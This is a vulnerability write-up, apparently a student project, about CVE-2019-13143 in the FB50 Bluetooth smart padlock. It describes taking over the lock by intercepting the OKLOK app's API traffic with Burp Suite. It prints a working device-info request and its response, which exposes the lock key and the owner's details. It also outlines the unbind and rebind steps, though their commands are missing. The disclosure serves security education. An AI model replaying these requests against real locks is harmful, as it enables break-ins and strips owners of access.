 # EXPOSING THE VULNURABILITES OF THE FB50 SMART LOCK

## CVE Number

CVE-2019-13143

## Details
* The FB50 smart lock
     * The FB50 smart lock is manufactured by Shenzhen Dragon Brother Technology Co. Ltd.
     * The look is sold under multiple brands on many ecommerse sites across the web.
     * It has an estimated 15k+ users.
* Product URLs
     * https://www.chinasmartlocks.com/en/product/fb50-smart-padlock.html
     * https://www.sz-mica.com/fb50.html

## How the lock works

* The FB50 pairs to a phone via Bluetooth, and requires the OKLOK app to function. The app requires the user to create an account before further functionality is available. It also facilitates configuring the fingerprint, and unlocking from a range via Bluetooth. 
    
    * Thus the 2 methods of unlocking it are:
        * By scanning the registered fingerprint.
        * By using the companion Android app when in it’s vicinity. 

## Our objective

Our objective in this project was to try to open or pick the lock and this could be done in 2 ways
* The BLE(Bluetooth Low Energy) method
* The Android app method.
Here, we have decided to focus on the Android app method.
      

## Using Burpsuite

* Before we start performing the exploit, we require the servises of Burpsuite.
* Burp Suite is an integrated platform for performing security testing of web applications that is usually used to pentest web applications by industry proffesionals
* It operates as a web proxy server, and sits as a man-in-the-middle between the browser and destination web servers. This allows the interception, inspection and modification of the raw traffic passing in both directions
* The free community version can be downloaded from [here](https://portswigger.net/burp/communitydownload)


## The exploit in brief

The entire exploit is a 3 step process consisting of authenticated HTTP requests sent via Burpsuite:
    1. Using the lock’s MAC (obtained via a simple Bluetooth scan in the vicinity), get the barcode,user ID and lock ID
    2. Using the lock ID and user ID, unbind the user from the lock
    3. Provide a new name, attacker’s user ID and the MAC to bind the attacker to the lock

## Performing the exploit

We start by connecting the Android device through our proxy made using Burpsuite.
As we turn the “Intercept” option on, all requests from the Android device are intercepted by Burpsuite.
We intercept the different requests being sent from the app which we will later modify.

### Step 1

* We proceed to use the “Repeater” feature of Burpsuite to send requests directly to the FB50 smart lock
* For example, we send the request 

      POST /oklock/lock/getDeviceInfo HTTP/1.1
      User-Agent: nokelockTool/1.4.8(<DEVICE INFO>)
      clientType: Android
      token: <TOKEN>
      language: US
      appVersion: 1.4.8
      Content-Type: application/json;charset=UTF-8
      Content-Length: 56
      Host: api.oklock.com.cn
      Connection: close
      Accept-Encoding: gzip, deflate

      {"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"}
    
 * To which we get the follwing response
                        
       HTTP/1.1 200 
       Server: nginx/1.13.3
       Date: Sat, 21 Sep 2019 05:29:38 GMT
       Content-Type: application/json
       Content-Length: 409
       Connection: close

       {"result":{"account":"<USER EMAILID>","alarm":0,"barcode":"<BARCODE>","chipType":"1","createAt":"   <DATE&TIME","deviceId":"","electricity":"91","firmwareVersion":"2.3","gsmVersion":"","id":<LOCKID>,"isLock":0,"lockKey":"40,1,61,18,20,24,18,8,52,57,36,96,91,1,87,20","lockPwd":"000000","mac":"<MAC ADDRESS>","name":"LOCK NAME","radioName":"BlueFPL","type":0,"userId":<USER ID>},"status":"2000"}









### Step 2

   * And now that we have all necessary information, we shall proceed to unbind the lock from the victim’s device using the victim’s USER ID.
      


### Step 3

   * And now we proceed to bind it to the attacker’s device using the following command.





## Conclusion

   * Thus, we have succesfully transfered control of the FB50 smart lock from the victiom’s app to the attacker’s app.
   * The severity of this issue lies in the fact that the original owner completely loses access to their lock. They can’t even “rebind” to get back, since the current owner (the attacker) needs to authorize that.  

## References

   * FB50 Smart Lock Vulnerability Disclosure (CVE-2019-13143)
   * https://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure/
   * https://icyphox.sh/blog/fb50/
